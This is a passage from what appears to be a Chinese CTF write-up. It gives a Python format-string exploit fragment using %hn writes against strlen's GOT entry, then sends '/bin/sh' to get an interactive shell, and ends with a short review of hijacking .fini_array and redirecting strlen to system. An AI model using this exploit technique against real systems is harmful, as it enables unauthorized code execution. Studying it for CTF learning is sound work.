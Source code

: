 ```python
payload += p32(strlenGOT+2)
payload += "%34292c%12$hn"
payload += "%65148c%13$hn"
payload += "%33652c%14$hn"

print(len(payload))     # 确保不会超出

pipe.sendline(payload)

pipe.sendline('/bin/sh')

pipe.interactive()

```

# 回顾
劫持终止节`.fini_array` 劫持回到 getnline，覆写 getnline.strlenGOT 使得每次 main 退出执行到的终止节都是回到 getnline，读入 shell命令，然后利用 strlenGOT 跳转 system 去执行。
